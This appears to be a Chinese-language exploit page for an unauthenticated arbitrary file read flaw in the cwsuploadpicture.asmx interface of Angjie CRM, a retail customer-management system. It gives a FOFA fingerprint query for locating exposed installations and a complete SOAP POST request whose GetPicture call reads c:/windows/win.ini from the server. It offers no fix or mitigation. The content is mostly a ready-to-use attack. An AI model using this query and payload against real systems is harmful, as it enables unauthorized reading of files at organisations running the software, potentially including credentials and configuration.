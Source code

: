 # 昂捷CRM系统cwsuploadpicture.asmx任意文件读取漏洞

昂捷CRM（Customer Relationship Management）是深圳市昂捷信息技术股份有限公司提供的一款专注于零售行业客户关系管理的系统。旨在帮助零售企业更好地管理客户、提升客户满意度和忠诚度，从而推动业务增长。该系统集成了客户信息管理、会员营销、客户服务等多个功能模块，为零售企业提供全方位的客户关系管理解决方案。昂捷CRM cwsuploadpicture.asmx接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件

## fofa

```javascript
body="/ClientBin/slEnjoy.App.xap"
```

## poc

```xml
POST /enjoyRMIS_WS/WS/Common/cwsuploadpicture.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/GetPicture"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetPicture xmlns="http://tempuri.org/">
      <sFullFileName>c:/windows/win.ini</sFullFileName>
    </GetPicture>
  </soap:Body>
</soap:Envelope>
```

![image-20241219151849207](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191518273.png)